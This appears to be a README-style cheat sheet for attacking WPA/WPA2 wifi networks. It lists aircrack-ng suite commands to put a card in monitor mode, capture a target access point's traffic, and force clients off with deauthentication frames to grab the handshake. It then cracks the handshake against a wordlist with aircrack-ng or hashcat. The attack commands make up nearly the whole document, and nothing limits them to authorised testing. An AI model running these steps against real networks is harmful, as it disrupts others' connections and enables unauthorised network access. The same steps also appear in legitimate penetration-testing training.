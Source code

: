 # Attacking WAP and WAP2 Wireless Networks Using Airmon-ng and Airdump-ng and Cracking using Aircrack-ng or Hashcat


## Capturing the 4-way Handshake

Checking WiFi Cards

`iwconfig`

Setting WiFi Card on Monitor Mode

`sudo airmon-ng start wlan0`

Listening for networks

`sudo airodump-ng wlan0`

*Note: the interface name may or may not change from wlan0 to wlan0mon. Check with iwconfig*

Save the MAC address and the channel number of the Access Point you want to attack

Capture wireless network traffic on target AP. Keep this running in a single terminal.

`sudo airodump-ng -w <hack1> -c 11 --bssid <00:FF:FF:FF:FF:FF> <wlan0>`

- "--bssid 00:FF:FF:FF:FF:FF" specifies the MAC address of the access point (AP) 
- "wlan0" or "wlan0mon" is the name of the wireless network interface to use for capturing traffic.
- "-c 11" specifies the wireless channel to capture traffic on.
- "-w hack1" specifies the name of the output file. In this case, it's "hack1".


In another terminal, de-Authenticate to to force reconnection and capture the handshake.

`sudo aireplay-ng --deauth 0 -a <00:FF:FF:FF:FF:FF> <wlan0>`

Stop monitor mode

`airmon-ng stop wlan0mon`


## Cracking the Captured Handshake

### Method 1 - Aircrack-ng

`aircrack-ng <hack1.cap> -w /usr/share/wordlists/rockyou.txt `


### Method 2 - Hashcat

Installation

`apt-get install hashcat`
`sudo apt-get install hcxtools`

Convert the .cap file to .hccapx format using the "cap2hccapx" tool. The syntax of the command

`cap2hccapx <input.cap> <output.hccapx>`

Crack

`hashcat -m 2500 -a 0 -w 3 <output.hccapx> <wordlist.txt>`

